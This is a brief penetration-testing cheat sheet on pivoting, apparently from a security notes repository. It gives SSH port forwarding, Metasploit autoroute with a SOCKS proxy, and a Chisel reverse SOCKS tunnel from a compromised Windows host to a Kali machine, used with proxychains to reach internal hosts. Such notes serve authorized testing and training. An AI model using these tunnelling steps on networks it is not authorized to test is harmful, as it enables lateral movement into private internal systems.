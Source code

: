## Pivoting Commands

Sometimes when you have access to an internal box, and want to route to something it can reach internally but your attack machine can't, you'll have to use some portforwarding. Here are just a couple of ways to do that!

### SSH

```bash
# Forward 8200 on 10.9.30.13 through the SSH session on 10.9.30.11. Then accessible at 127.0.0.1:8200
ssh -L 8200:10.9.30.13:8200 neo@10.9.30.11
```

### Proxychains


To set up proxychains using Metasploit's autoroute, use the following:

```bash
use autoroute
set session <Session ID>
run
set cmd add
set subnet <extra subnets>
run
search socks
use 0
set srvhost 127.0.0.1
set version 5
run
```

With a valid proxychains configuration, you can now use `proxychains <command>` and it will route through metasploit's new routing.

### Chisel 

```bash
# proxychains configuration set to the following at the end of /etc/proxychains.conf: 1080 127.0.0.1 socks5

# Kali
sudo ./chisel server -p 80 --reverse

# Windows
chisel.exe client 10.10.10.10:80 R:socks
```

We can then use proxychains over the chisel portforward.

```bash
proxychains curl 'http://172.16.1.1/some_internal_page' 
```